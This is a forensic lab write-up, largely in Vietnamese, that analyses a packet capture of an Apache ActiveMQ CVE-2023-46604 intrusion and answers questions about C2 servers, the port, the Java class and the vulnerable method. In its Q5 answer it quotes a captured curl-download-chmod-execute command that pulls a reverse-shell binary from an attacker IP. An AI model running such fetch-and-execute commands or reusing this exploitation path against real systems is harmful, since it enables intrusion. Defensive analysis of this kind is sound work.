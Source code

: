 <h1>Q1:</h1>
<h2>Problem</h2>
By identifying the C2 IP, we can block traffic to and from this IP, helping to contain the breach and prevent further data exfiltration or command execution. Can you provide the IP of the C2 server that communicated with our server?
<h2>Solution
</h2>

Trước tiên mình sẽ check conversation giữa các sever 
![image](https://github.com/user-attachments/assets/ebb60552-2c92-4a0c-bd84-046dd7dfa39d)
Nhìn vào đó thì mình thấy được 3 IP khác kết nối tới địa chỉ sever của mình(134.209.197.3). Nhưng trong đó có 4867 packets đã được gửi giữa sever mình với sever IP 146.190.21.92
=> Ans: 146.190.21.92

<h1>Q2:</h1>
<h2>Problem</h2>
Initial entry points are critical to trace back the attack vector. What is the port number of the service the adversary exploited?

<h2>Solution</h2>
Khi nhìn vào packet thứ 4 và 5, mình thấy attacker sử dụng protocol OpenWire để tấn công sever(sau khi research thì mình biết được rằng OpenWire được xây dựng dựa trên nền tảng TCP và sử dụng TCP làm phương tiện truyền tải dữ liệu), sau đó mình vào các packet để check src port

![image](https://github.com/user-attachments/assets/bb104fa6-117f-40f7-a999-4632672b1e93)

=> Ans: 61616
<h1>Q3:</h1>
<h2>Problem</h2>
Following up on the previous question, what is the name of the service found to be vulnerable?

<h2>Solution</h2>
Mình search google xem giao thức OpenWire được dùng cho service nào và tìm được câu trả lời

![Screenshot 2024-08-22 224745](https://github.com/user-attachments/assets/21a77267-2cd8-453f-9048-73672ee48c20)

=> Ans: Apache ActiveMQ
<h1>Q4:</h1>
<h2>Problem</h2>
The attacker's infrastructure often involves multiple components. What is the IP of the second C2 server?

<h2>Solution</h2>
Sau khi nhìn vào phần Conversation, sever của mình còn kết nối với 2 sever khác nữa(128.199.52.72 và 84.239.49.16) nên mình filter từng IP một
<pre>ip.addr==134.209.197.3 && ip.addr==128.199.52.72</pre>

![image](https://github.com/user-attachments/assets/0bcff04d-3446-493d-a36c-4bfccf00d270)

Sau quá trình bắt tay ba bước, mình thấy sever của mình đang gửi một request GET để lấy tài nguyên nên mình follow TCP stream ở packet 34

![image](https://github.com/user-attachments/assets/c2223b7b-809b-4ae0-845f-e8ae8b8f02cc)

 Mình thấy được nội dung trả về là một tệp ELF(định dạng tệp thực thi chuẩn trên các hệ điều hành Linux, Unix), nên mình biết được đây chính là C2 sever
 => Ans: 128.199.52.72
<h1>Q5:</h1>
<h2>Problem</h2>
Attackers usually leave traces on the disk. What is the name of the reverse shell executable dropped on the server?

<h2>Solution</h2>
Khi đọc đến packet 11, mình thấy info của packet là 

_**GET /invoice.xml HTTP/1.1**_
![image](https://github.com/user-attachments/assets/6c94cd22-508f-494c-b3cd-343eb318dced)
Đây là một yêu cầu HTTP GET để lấy file invoice.xml từ máy chủ, nên mình check bằng cách follow TCP Stream và bắt được nội dung của file XML
![image](https://github.com/user-attachments/assets/f8fef9f5-e9d5-4954-b682-6936ff5fa5df)

Sau khi đọc và phân tích nội dung file thì mình kết luận được là trong tệp XML chứa mã độc, trong file đó chứa câu lệnh bash sau

<pre> curl -s -o /tmp/docker http://128.199.52.72/docker; chmod +x /tmp/docker; ./tmp/docker </pre>

Câu lệnh trên sẽ tải một tệp từ địa chỉ http://128.199.52.72/docker, sau đó cung cấp quyền thực thi cho tệp docker đó


=> Ans: docker
<h1>Q6:</h1>
<h2>Problem</h2>
What Java class was invoked by the XML file to run the exploit?
<h2>Solution</h2>
Sau khi đọc nội dung của file XML thì mình thấy được class được dùng là "java.lang.ProcessBuilder" 
Đây là một lớp trong Java dùng để tạo và quản lý các process mới. Trong trường hợp này, file XML sử dụng ProcessBuilder để thực thi các lệnh bash trên hệ thống.
=> Ans: java.lang.ProcessBuilder
<h1>Q7:</h1>
<h2>Problem</h2>
To better understand the specific security flaw exploited, can you identify the CVE identifier associated with this vulnerability?
<h2>Solution</h2>
Để tìm được CVE ID thì mình search google với từ khóa " OpenWire CVE là có kết quả

![image](https://github.com/user-attachments/assets/60739179-7872-4ea3-a834-a99fda95ac6a)

=> Ans: CVE-2023-46604

Sau đây là một số bài viết mình tìm hiểu liên quan tới CVE này

https://www.trendmicro.com/en_us/research/23/k/cve-2023-46604-exploited-by-kinsing.html 

https://www.openlogic.com/blog/activemq-cve-2023-46604

https://fidelissecurity.com/threatgeek/threat-intelligence/unveiling-apache-activemq-vulnerability/

https://www.vicarius.io/vsociety/posts/apache-activemq-rce-cve-2023-46604?source=post_page-----65aa41a651b1--------------------------------

Bản chất về cách hoạt động của CVE này đó là các lệnh OpenWire không thể validate được các Throwable class type, dẫn tới nguy cơ RCE.
Trong bài lab này, đoạn mã XML đã sử dụng class ProcessBuilder để tạo và khởi chạy mã độc.
![image](https://github.com/user-attachments/assets/9d7c09f4-1d58-4434-a486-8873efe69ccc)

Trong đoạn code trên, method validateIsThrowable đã được update vào bản patch OpenWire và được sử dụng để đảm bảo rằng chỉ các class kế thừa từ Throwable mới được chấp nhận và xử lý. Nếu không có method này hoặc method không hoạt động đúng cách, bất kỳ class nào cũng có thể được chấp nhận và thực thi, bao gồm cả các class chứa mã độc. 

 
<h1>Q8:</h1>
<h2>Problem</h2>
What is the vulnerable Java method and class that allows an attacker to run arbitrary code? (Format: Class.Method)

<h2>Solution</h2>
https://www.vicarius.io/vsociety/posts/apache-activemq-rce-cve-2023-46604?source=post_page-----65aa41a651b1--------------------------------

Mình research được thêm bài viết này và có câu trả lời 
=> Ans: BaseDataStreamMarshaller.createThrowable

